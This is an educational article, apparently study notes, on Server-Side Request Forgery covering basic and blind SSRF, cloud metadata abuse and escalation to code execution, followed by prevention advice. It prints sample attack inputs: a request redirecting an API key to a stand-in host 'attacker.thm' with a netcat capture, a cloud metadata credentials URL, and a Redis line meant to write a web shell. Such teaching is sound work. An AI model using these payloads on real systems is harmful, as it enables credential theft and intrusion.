

# Server-Side Request Forgery

Server-Side Request Forgery (SSRF) is a **web security vulnerability** that allows an attacker to **trick a server into making unintended requests to internal or external resources**. Instead of directly accessing a target system, an attacker exploits a **vulnerable application’s server to send the request on their behalf**.

This type of vulnerability occurs when an attacker can coerce a web application into sending requests on their behalf to arbitrary destinations while having control of the contents of the request itself. <span style="color: inherit;">SSRF</span> vulnerabilities often arise from implementations where our web application needs to use third-party services.

### Why is SSRF Dangerous?

- Allows **bypassing network restrictions** to access internal resources.
- Can be used to **scan internal systems** for open ports and services.
- Often leads to **sensitive data exposure**, such as metadata from cloud services.
- Can be leveraged for **Remote Code Execution (RCE)** if combined with other vulnerabilities.
- May enable **exploitation of misconfigured APIs and cloud environments**.

Think, for example, of a web application that uses an external <span style="color: inherit;">API</span> to send SMS notifications to its clients. For each email, the website needs to make a web request to the SMS provider's server to send the content of the message to be sent. Since the SMS provider charges per message, they require you to add a secret key, which they pre-assign to you, to each request you make to their <span style="color: inherit;">API</span>. The <span style="color: inherit;">API</span> key serves as an authentication token and allows the provider to know to whom to bill each message. The application would work like this:



By looking at the diagram above, it is easy to see where the vulnerability lies. The application exposes the `server` parameter to the users, which defines the server name of the SMS service provider. If the attacker wanted, they could simply change the value of the `server` to point to a machine they control, and your web application would happily forward the SMS request to the attacker instead of the SMS provider. As part of the forwarded message, the attacker would obtain the API key, allowing them to use the SMS service to send messages at your expense. To achieve this, the attacker would only need to make the following request to your website:

`https://www.mysite.com/sms?server=attacker.thm&msg=ABC`

This would make the vulnerable web application make a request to:

`https://attacker.thm/api/send?msg=ABC`

You could then just capture the contents of the request using Netcat:

```shell
user@BoB$ nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.1.236 43830
GET /:8087/public-docs/123.pdf HTTP/1.1
Host: 10.10.10.11
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
```

This is a really basic case of <span style="color: inherit;">SSRF</span>. If this doesn't look that scary, <span style="color: inherit;">SSRF</span> can actually be used to do much more. In general, depending on the specifics of each scenario, <span style="color: inherit;">SSRF</span> can be used for:

- Enumerate internal networks, including IP addresses and ports.
- Abuse trust relationships between servers and gain access to otherwise restricted services.
- Interact with some non-<span style="color: inherit;">HTTP</span> services to get remote code execution (<span style="color: inherit;">RCE</span>).

&nbsp;

## How SSRF Works

1.  A web application **accepts a user-supplied URL** and fetches data from it (e.g., an image downloader or webhook service).
2.  An attacker **modifies the URL** to point to an internal or sensitive resource (e.g., internal APIs, cloud metadata endpoints, or local network services).
3.  The server **processes the request** and **returns data to the attacker**, exposing sensitive information or enabling further attacks.

**Example Scenario:**

- A web application allows users to fetch profile pictures via a URL.
    
- The attacker submits a request like:
    

```plaintext
http://localhost/admin
```

- If the application does not validate the URL properly, the server may request the **internal admin page** and return its contents to the attacker.
    

&nbsp;

## Types of SSRF Attacks

### 1\. Basic SSRF

- The attacker tricks the server into making requests to internal resources.
- Exploits **fetching mechanisms** (e.g., downloading images, webhooks, or API calls).

**Example:** An attacker submits:

```plaintext
http://127.0.0.1:8080/admin
```

If an internal admin panel is running on port `8080`, the server may return restricted data.

* * *

### 2\. Blind SSRF

- The attacker **cannot directly see the server’s response** but can infer the request's impact based on **timing differences, logs, or error messages**.
- Used to **port scan internal networks** or exfiltrate data via **out-of-band (OOB) techniques**.

**Example:**

- An attacker sends requests to `http://192.168.1.1:80` and `http://192.168.1.1:81` to check which ports are open.
- If `80` returns a faster response than `81`, they can infer that port `80` is open.

* * *

### 3\. Exploiting Cloud Metadata Services

- Many cloud platforms have a **metadata service** accessible at a known IP (`169.254.169.254`).
- Attackers use SSRF to retrieve **instance credentials, security tokens, and IAM roles**.

**Example:** Requesting:

```ruby
http://169.254.169.254/latest/meta-data/iam/security-credentials/admin-role
```

May return **AWS IAM credentials**, allowing an attacker to escalate privileges.

* * *

### 4\. SSRF to Remote Code Execution (RCE)

- If the application interacts with vulnerable services (e.g., Redis, Elasticsearch, or internal APIs), an attacker can execute **arbitrary commands**.

**Example:**

- An attacker sends a request to an **internal open Redis instance**:
    
    ```cpp
    redis://127.0.0.1:6379/CONFIG SET dbfilename shell.php
    ```
    
- If successful, they can **write a web shell** and gain remote access.
    

* * *

## Common SSRF Targets

- Internal admin panels (`http://localhost/admin`)
- Cloud metadata services (`http://169.254.169.254`)
- Internal APIs (`http://internal-api/v1/users`)
- Database services (MongoDB, Redis, Elasticsearch)
- Other internal systems (CI/CD servers, monitoring dashboards)

* * *

## How to Prevent SSRF

### 1\. Validate and Restrict User Input

- Do not allow users to provide arbitrary URLs for server-side requests.
- Implement **allowlists** (e.g., restrict requests to only trusted domains).
- Block requests to **localhost (127.0.0.1), private IP ranges, and cloud metadata services**.

### 2\. Enforce Network-Level Restrictions

- **Deny outbound traffic** from application servers to internal networks.
- Use **firewalls and security groups** to restrict access to internal services.
- Block access to `169.254.169.254` unless explicitly required.

### 3\. Use Secure APIs Instead of Direct Requests

- Instead of fetching user-supplied URLs, use **predefined and secured API calls**.
- Ensure **server-to-server communication is authenticated**.

### 4\. Implement URL Parsing and Validation

- Parse and validate URLs before making a request.
- Reject **redirections, encoded IPs, or URLs pointing to internal networks**.

**Example:**

- Convert domain names to IP addresses and check against an allowlist before processing.

### 5\. Monitor and Detect SSRF Attacks

- Log and analyze **outgoing requests from servers**.
- Implement **anomaly detection** for unexpected network requests.
- Use **Web Application Firewalls (WAFs)** to block SSRF payloads.

* * *

## Conclusion

Server-Side Request Forgery (SSRF) is a critical vulnerability that allows attackers to **access internal resources, steal cloud credentials, and bypass security controls**. Preventing SSRF requires **input validation, network restrictions, URL sanitization, and monitoring of outbound requests** to ensure that the application does not expose internal systems to unauthorized access.